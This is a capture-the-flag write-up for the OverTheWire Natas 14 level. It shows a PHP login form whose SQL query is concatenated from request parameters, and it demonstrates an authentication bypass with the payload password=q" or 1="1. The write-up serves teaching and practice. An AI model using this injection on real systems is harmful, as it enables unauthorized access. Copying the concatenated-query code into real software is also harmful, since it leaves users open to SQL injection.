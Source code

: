 # Natas 14 -> 15

```
http://natas14.natas.labs.overthewire.org
```

```
Username: natas14
```

This time we have a login form and the source code:

```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? }
```

Well, there are *at least* two things we can use here:

* the `$query` is made using `$_REQUEST` (therefore we can use `$_GET`)
* Will print the query if we pass $_GET['debug']

Let's try that:  
```
?username=q&password=q&debug=1
```

Which prints

```
Executing query: SELECT * from users where username="q" and password="q"
Access denied!
```

Let's try again, now to get the password.

```
?username=q&password=q" or 1="1&debug=1
```

```
Executing query: SELECT * from users where username="q" and password="q" or 1="1"
Successful login!
```

* php
* mysql_connect
* $_REQUEST
* sqli
